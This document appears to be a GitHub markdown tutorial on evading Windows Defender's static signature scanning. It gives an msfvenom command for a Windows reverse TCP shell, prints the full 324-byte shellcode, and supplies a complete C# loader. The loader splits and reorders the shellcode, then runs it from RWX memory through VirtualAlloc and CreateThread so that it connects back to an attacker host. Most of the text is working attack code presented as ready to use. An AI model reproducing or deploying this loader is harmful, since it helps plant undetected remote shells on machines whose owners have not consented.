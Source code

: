 # Antivirus Evasion - Part 1

Antivirus Software uses couple of techniques for code detection namely:

- Signature Static Scanning
- Behaiour Monitoring
- Run-time analysis
- AI detection and many other tricks.

## Bypassing Signature Static Scanning

We can change some byte to bypass static scanning. Original idea was showed by [ired teams](https://www.ired.team/offensive-security/defense-evasion/evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change) but this, as stated by them, this trick soon became obselete since windows does detect the shellcode statically.

#### Steps

- Generate msf shellcode using normal procedure.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.122.1 LPORT=80 -f csharp
```
Shellcode : 
```text
byte[] buf = new byte[324] {
0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,
0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,
0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,
0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,
0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,
0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,
0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,
0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,
0x8d,0x5d,0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,
0x77,0x26,0x07,0xff,0xd5,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,0x50,0x68,
0x29,0x80,0x6b,0x00,0xff,0xd5,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,
0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x05,0x68,0xc0,0xa8,0x7a,0x01,0x68,
0x02,0x00,0x00,0x50,0x89,0xe6,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,
0xff,0xd5,0x85,0xc0,0x74,0x0c,0xff,0x4e,0x08,0x75,0xec,0x68,0xf0,0xb5,0xa2,
0x56,0xff,0xd5,0x68,0x63,0x6d,0x64,0x00,0x89,0xe3,0x57,0x57,0x57,0x31,0xf6,
0x6a,0x12,0x59,0x56,0xe2,0xfd,0x66,0xc7,0x44,0x24,0x3c,0x01,0x01,0x8d,0x44,
0x24,0x10,0xc6,0x00,0x44,0x54,0x50,0x56,0x56,0x56,0x46,0x56,0x4e,0x56,0x56,
0x53,0x56,0x68,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x89,0xe0,0x4e,0x56,0x46,0xff,
0x30,0x68,0x08,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,
0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,
0x47,0x13,0x72,0x6f,0x6a,0x00,0x53,0xff,0xd5 };
```
- Performed various changes to shellcode to avoid static shellcode detection. Althought the below code wont pass run time analysis of defender but it does bypass latest static based signature detection. Again, I could have used something else but main purpose was to code stuff to lean c# and windows also :)

Code:
```cs
using System;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32")]
        private static extern IntPtr VirtualAlloc(UInt32 lpAddress, UInt32 dWsize, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dWsize, IntPtr lpStartAddress, IntPtr lpParameter, UInt32 dwCreationFlags, IntPtr lpThradId);

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliSeconds);

        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
        static void Main(string[] args)
        {
            byte[] buf = new byte[] {0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,
                0x30,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,
                0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,
                0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,
                0x49,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,
                0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,
                0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff};

            byte[] buff5 = new byte[] {
                0x54,0x68,0x4c,0x77,0x26,0x07,0xff,0xd5,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,0x50,0x68,0x29,
                0x80,0x6b,0x00,0xff,0xd5,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0x0f,0xdf,0xe0,0xff,
                0xd5,0x97,0x6a,0x05,0x68,0xc0,0xa8,0x7a,0x01,0x68,0x02,0x00,0x00,0x50,0x89,0xe6,0x6a,0x10,0x56 };
            
            byte[] buff4 = new byte[] { 0xb5,0xa2,0x56,0xff,0xd5,0x68,0x63,0x6d,0x64,0x00,0x89,0xe3,0x57,0x57,
                0x57,0x31,0xf6,0x6a,0x12,0x59,0x56,0xe2,0xfd,0x66,0xc7,0x44,0x24,0x3c,0x01,0x01,0x8d,0x44,0x24,
                0x10,0xc6,0x00,0x44,0x54,0x50,0x56,0x56,0x56,0x46,0x56,0x4e,0x56,0x56,0x53,0x56,0x68,0x79,0xcc,
                0x3f,0x86,0xff,0xd5,0x89,0xe0,0x4e,0x56,0x46,0xff,0x30,0x68,0x08,0x87,0x1d,0x60,0xff,0xd5,0xbb,
                0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,
                0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x53,0xff,0xd5 };

            byte[] buff2 = new byte[] { 0x57, 0x68, 0x99, 0xa5, 0x74, 0x61, 0xff, 0xd5, 0x85, 0xc0, 0x74, 0x0c, 0xff, 0x4e, 0x08, 0x75, 0xec, 0x68, 0xf0 };
            byte[] buff3 = new byte[] { 0xe0, 0x5f, 0x5f, 0x5a, 0x8b, 0x12, 0xeb, 0x8d, 0x5d, 0x68, 0x33, 0x32, 0x00, 0x00, 0x68, 0x77, 0x73, 0x32, 0x5f };

            IntPtr tmp =IntPtr.Zero;

            IntPtr address = VirtualAlloc(0, 324, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(buf, 0, address, buf.Length);
            Marshal.Copy(buff3, 0, (IntPtr)((UInt32)address+buf.Length*sizeof(byte)), buff3.Length);
            Marshal.Copy(buff5, 0,(IntPtr)((UInt32)address+((buf.Length + buff3.Length)*sizeof(byte))), buff5.Length);
            Marshal.Copy(buff2, 0,(IntPtr)((UInt32)address + ((buf.Length + buff3.Length+buff5.Length) * sizeof(byte))), buff2.Length);
            Marshal.Copy(buff4, 0, (IntPtr)((UInt32)address + ((buf.Length + buff3.Length + buff5.Length+buff2.Length) * sizeof(byte))), buff4.Length);

            IntPtr theadHandle = CreateThread(0, 0, address, tmp, 0, tmp);
            WaitForSingleObject(theadHandle, 0xFFFFFFFF);
        }
    }
}
```
(The above code is for 32 bit. It would show overflow if ran in 64 bit since its uses UInt32)

### Pre-Requistes

- Below are the structures of the functions imported by kernel32.dll taken directly from Microsoft.

> VirtualAlloc
```
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```
> CreateThread
```
HANDLE CreateThread(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  SIZE_T                  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  __drv_aliasesMem LPVOID lpParameter,
  DWORD                   dwCreationFlags,
  LPDWORD                 lpThreadId
);
```
> WaitForSingleObject
```
DWORD WaitForSingleObject(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);
```
- For conversion for unmanaged data type to managed data type this the below image
[image](images/unmanaged_managed.png)

### Reference

[Ired Team](https://www.ired.team/offensive-security/defense-evasion/evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change)
